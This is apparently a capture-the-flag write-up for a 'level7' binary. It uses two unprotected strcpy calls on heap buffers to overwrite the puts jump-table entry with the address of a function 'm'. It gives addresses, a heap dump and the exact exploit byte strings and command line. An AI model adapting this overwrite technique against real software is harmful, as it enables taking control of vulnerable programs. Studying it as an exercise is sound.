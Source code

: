 # level7

This time, we need to overwrite `puts` to call `m` instead. To do so, we use
the two unprotected `strcpy` calls, the first one to overwrite where the second is written
and the second to overwrite the address of `puts` and put the address
of `m` instead.

## Useful infos

str1 = esp+0x1c = 0x0804a008  
str2 = esp+0x18 = 0x0804a028  
fgets string: 0x8049960  
address of puts in plt: 0x08049928  
address of m: 0x080484f4  

le heap:
```
0x804a008:	0x00000001	0x0804a018	0x00000000	0x00000011
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	0x0804a038	0x00000000	0x00000011
0x804a038:	0x00000000	0x00000000	0x00000000	0x00020fc1
```

exploit arg 1: `echo -e "\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x11\x01\x01\x01\x02\x01\x01\x01\x28\x99\x04\x08"`  
exploit arg 2: `echo -e "\xf4\x84\x04\x08"`

`./level7 $(echo -e "\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x11\x01\x01\x01\x02\x01\x01\x01\x28\x99\x04\x08") $(echo -e "\xf4\x84\x04\x08")`